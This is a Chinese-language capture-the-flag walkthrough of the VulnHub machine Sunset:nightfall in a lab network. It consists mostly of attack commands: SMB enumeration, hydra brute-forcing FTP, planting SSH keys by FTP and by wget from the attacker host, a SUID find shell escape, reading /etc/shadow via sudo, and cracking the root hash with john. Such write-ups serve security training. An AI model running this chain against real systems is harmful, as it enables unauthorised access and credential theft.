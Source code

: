 # Sunset:nightfall

## 环境

虚拟机平台：Oracle VM VirtualBox

攻击机：Kali（IP：192.168.56.102）

靶机：nightfall（IP：192.168.56.104）

下载：https://www.vulnhub.com/entry/sunset-nightfall,355/

## Let's go

```
nmap -A 192.168.56.104
```

![](./img/Sunset：Nightfall-01.png)![](./img/Sunset：Nightfall-02.png)

```
dirb http://192.168.56.104/
```

![](./img/Sunset：Nightfall-03.png)

> **并没有发现什么，我们对SMB进行枚举**

```
enum4linux -a 192.168.56.104
```

![](./img/Sunset：Nightfall-04.png)

> **得到两个用户 ‘nightfall’ 和 ‘matt’ ，接下来我们进行暴力破解**

```
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt -e nsr 192.168.56.104 ftp -f
```

![](./img/Sunset：Nightfall-05.png)

```
#尝试SSH登录失败,老老实实登录FTP
ftp 192.168.56.104
username:matt
password:cheese
```

![](./img/Sunset：Nightfall-06.png)

```
#我们通过FTP将SSH密钥上传
ssh-keygen
cp .ssh/id_rsa.pub authorized_keys
chmod 777 authorized_keys
```

![](./img/Sunset：Nightfall-07.png)

```
mkdir .ssh
cd .ssh
put authorized_keys
```

![](./img/Sunset：Nightfall-08.png)

```
ssh matt@192.168.56.104
```

![](./img/Sunset：Nightfall-09.png)

```
find / -perm -u=s -type f 2>/dev/null
```

![](./img/Sunset：Nightfall-10.png)

```
cd /scripts
./find . -exec /bin/sh -p \;
```

![](./img/Sunset：Nightfall-11.png)

> **这是一个受限的shell，因此我们要想办法**

```
cd /home/nightfall
mkdir .ssh
cd .ssh
wget http://192.168.56.102/authorized_keys
```

![](./img/Sunset：Nightfall-12.png)

```
ssh nightfall@192.168.56.104
```

![](./img/Sunset：Nightfall-13.png)

```
sudo -l
```

![](./img/Sunset：Nightfall-14.png)

```
sudo cat /etc/shadow
```

![](./img/Sunset：Nightfall-15.png)

```
vim root		#将哈希写入root
john root
```

![](./img/Sunset：Nightfall-16.png)

```
su root
password:miguel2
cd
cat root_super_secret_flag.txt
```

![](./img/Sunset：Nightfall-17.png)